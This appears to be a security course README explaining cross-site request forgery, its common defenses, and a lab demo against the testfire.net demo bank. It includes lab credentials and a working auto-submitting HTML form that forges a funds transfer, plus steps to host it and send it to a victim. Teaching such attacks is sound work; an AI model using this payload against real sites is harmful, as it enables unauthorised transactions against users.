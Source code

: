  

[![made-with-html](https://img.shields.io/badge/Made%20with-HTML-1f425f.svg)](https://html.com/)<space><space>  [![instructure-dr.404](https://img.shields.io/badge/Instructor-Dr.404-brightgreen)](https://www.facebook.com/htunaungkyawMPC)



 # Cross-Site Request Forgery (CSRF)

 - an attack that forces an end user `to execute unwanted actions` on a web application in which they’re `currently authenticated`. 

 - With a little help of `social engineering` (such as sending a link via email or chat), 

 - If the victim is a normal user, a successful CSRF attack can force the user to perform state changing requests like `transferring funds`, c`hanging their password`, and so forth. If the victim is an administrative account, CSRF can compromise the entire web application.

 [Reference-OWASP](https://owasp.org/www-community/attacks/csrf)

![CSRF](../photo/csrf.png)



# Common defenses against CSRF 

[Reference_portswigger.net](https://portswigger.net/web-security/csrf)

 The most common defenses are as follows:

- CSRF tokens - A CSRF token is a unique, secret, and unpredictable value that is generated by the server-side application and shared with the client. When attempting to perform a sensitive action, such as submitting a form, the client must include the correct CSRF token in the request. This makes it very difficult for an attacker to construct a valid request on behalf of the victim.

    
- Referer-based validation - Some applications make use of the HTTP Referer header to attempt to defend against CSRF attacks, normally by verifying that the request originated from the application's own domain. This is generally less effective than CSRF token validation.

![CSRF](../photo/anti_csrf.png)


# Lab Demo

## Lab Websit

`http://testfire.net/login.jsp`

## Lab Credentials

```
username = jsmith   
password = demo1234

```

## Example CSRF POC Form

```html
<h1>CSRF</h1>
<form id="form1" action="http://testfire.net/bank/doTransfer" method="POST">
    <input name="fromAccount" value="800002" />
    <input name="toAccount" value="4539082039396288" />
    <input name="transferAmount" value="3333" />
</form>
<script type="text/javascript">
document.getElementById('form1').submit();
</script>

```

## Labs Steps

1. Construct `CSRF Form` manaully or using burp suite  `engagement tools (csrf PoC)`.

2. Run web server and send the link to victim

3. Exploit